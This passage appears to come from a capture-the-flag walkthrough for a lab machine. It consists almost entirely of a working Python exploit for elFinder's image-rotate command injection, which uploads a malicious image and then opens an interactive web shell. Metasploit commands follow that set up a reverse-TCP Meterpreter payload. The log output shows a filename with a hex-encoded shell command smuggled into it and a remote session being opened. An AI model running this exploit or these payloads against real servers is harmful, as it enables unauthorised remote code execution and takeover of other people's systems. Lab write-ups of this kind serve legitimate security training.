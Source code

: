 ```python
    
    return j['added'][0]['hash']

def imgRotate(url, hash):
    r = requests.get(
        "%s/php/connector.minimal.php?target=%s&width=539&height=960&degree=180&quality=100&bg=&mode=rotate&cmd=resize&reqid=169323550af10c"
        % (url, hash)
    )
    return r.text

def shell(url):
    r = requests.get("%s/php/SecSignal.php" % url)
    
    if r.status_code == 200:
        print "[+] Pwned! :)"
        print "[+] Getting the shell..."
        
        while 1:
            try:
                input = raw_input("$ ")
                r = requests.get("%s/php/SecSignal.php?c=%s" % (url, input))
                print r.text
            except KeyboardInterrupt:
                sys.exit("\nBye kaker!")
    else:
        print "[*] The site seems not to be vulnerable :("

def main():
    usage()
    
    url = sys.argv[1]
    print "[*] Uploading the malicious image..."
    hash = upload(url, payload)
    
    print "[*] Running the payload..."
    imgRotate(url, hash)
    
    shell(url)

if __name__ == "__main__":
    main()
```

`msfconsole -q`

`search elfinder`, `use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection`, `set PAYLOAD php/meterpreter/reverse_tcp`, `show options`, `set RHOSTS files.lookup.hmv`, `set TARGETURI /elFinder/`, `set LHOST 192.168.56.118`, `set LPORT 4444`, `exploit`:
```
[*] Started reverse TCP handler on 192.168.56.118:4444 
[*] Uploading payload 'sc5PAww.jpg;echo 6370202e2e2f66696c65732f736335504177772e6a70672a6563686f2a202e687354536c6835522e706870 |xxd -r -p |sh& #.jpg' (1960 bytes) ←
[*] Triggering vulnerability via image rotation ...
[*] Executing payload (/elFinder/php/.hsTSlh5R.php) ... ←
[*] Sending stage (39927 bytes) to 192.168.56.134
[+] Deleted .hsTSlh5R.php
[*] Meterpreter session 1 opened (192.168.56.118:4444 -> 192.168.56.134:47042) at 2024-10-08 07:45:38 -0400 ←
```

